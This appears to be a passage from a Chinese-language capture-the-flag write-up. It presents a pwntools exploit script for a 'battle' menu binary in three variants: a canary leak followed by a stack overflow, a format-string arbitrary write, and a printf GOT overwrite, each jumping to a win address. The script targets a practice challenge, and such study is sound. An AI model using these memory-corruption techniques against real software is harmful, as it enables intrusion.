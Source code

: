 ```python
conn.sendline(payload)
conn.recvuntil('Exit the battle \n')
conn.sendline('2')
conn.sendline('2')

recv = conn.recv()
log.success("recv is {}".format(recv))
conn.sendlineafter('Exit the battle \n', '3')
```

将三种方法的exp整理了一下。

**exp**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.arch = 'amd64'
debug = True
if debug:
    conn = process('./a.out')
else:
    conn = remote('220.249.52.133', 39751)

elf = ELF('./a.out')

win = 0x4008DA
log.success("win addr is {}\n".format(hex(win)))

offset = 6
log.success("offset is {}\n".format(offset))

conn.sendlineafter('3. Exit the battle \n', '2')

# Stack overflow, bypassing the canary
def func1():
    conn.sendline("%23$p")
    canary = int(conn.recvuntil('\n'), 16)
    log.success('canary is {:x}'.format(canary))
    conn.recvuntil('Exit the battle \n')
    conn.sendline('1')
    payload = 'A' * 0x88 + p64(canary) + 'AAAAAAAA' + p64(win)
    conn.sendline(payload)
    return conn.recvall()

# Format string, read and write anywhere
def func2():
    conn.sendline("%1$p")
    buf_addr = int(conn.recvuntil('\n'), 16)
    conn.sendlineafter('3. Exit the battle \n', '2')
    payload = fmtstr_payload(6, {buf_addr+0x98 : win})
    conn.sendline(payload)
    return conn.recvall()
# Overwrite the got table
def func3():
    log.success("got.printf is {:#x}".format(elf.symbols['got.printf']))
    payload = fmtstr_payload(6, {elf.symbols['got.printf']: win})
    conn.sendline(payload)
    conn.recvuntil('Exit the battle \n')
    conn.sendline('2')
    conn.sendline('2')
    return conn.recv()
```